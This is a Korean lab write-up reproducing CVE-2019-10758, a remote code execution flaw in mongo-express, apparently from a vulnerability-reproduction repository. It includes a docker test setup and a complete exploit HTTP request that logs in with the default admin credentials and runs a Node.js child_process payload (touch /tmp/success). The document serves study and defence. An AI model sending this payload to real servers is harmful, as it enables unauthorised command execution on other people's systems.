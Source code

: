 # CVE-2019-10758
**Contributors**
-   [박진석(@ilohas0021)](https://github.com/ilohas0021)

<br/>

### 요약
-   mongo-express는 MongoDB 데이터베이스 관리를 위한 웹 인터페이스로 Node.js와 Express로 개발되었음.
-   CVE-2019-10758은 mongo-express에서 발견된 원격 코드 실행 취약점으로 공격자는 원격 서버에 Node.js 코드를 실행할 수 있음.
-   이 취약점은 공격자가 로그인에 성공하거나 목표 서버가 기본 계정 비밀번호(기본 값: admin:pass)를 변경하지 않은 경우에만 사용 가능함.

<br/>

### 환경 구성 및 실행
-   `docker compose up -d`를 실행하여 테스트 환경(mongo-express 0.53.0)을 실행함.

![](./img/start.png)

-  `docker exec cve-2019-10758-web-1 ls /tmp`를 실행하여 `/tmp` 하위에 디렉터리 또는 파일이 존재하는지 확인함.

![](./img/before.png)

-   `http://your-ip:8081`에 접속하여 페이지를 확인함.

![](./img/express.png)

-   `python poc.py your-ip:8081`를 호출하여 `Packet` 을 전송하면 아래 코드를 실행할 수 있음.
-   `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`

![](./img/valid.png)

#### Packet
```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```

<br/>

### 결과
![](./img/after.png)

<br/>

### 정리
-   이 취약점은 공격자가 mongo-express 서버에 악의적인 코드를 삽입하여 시스템을 해킹하거나 조작할 수 있는 위험을 갖고 있음.
-   따라서, 안전한 웹 서비스 운영을 위해 정기적인 취약점 점검과 패치가 중요함.

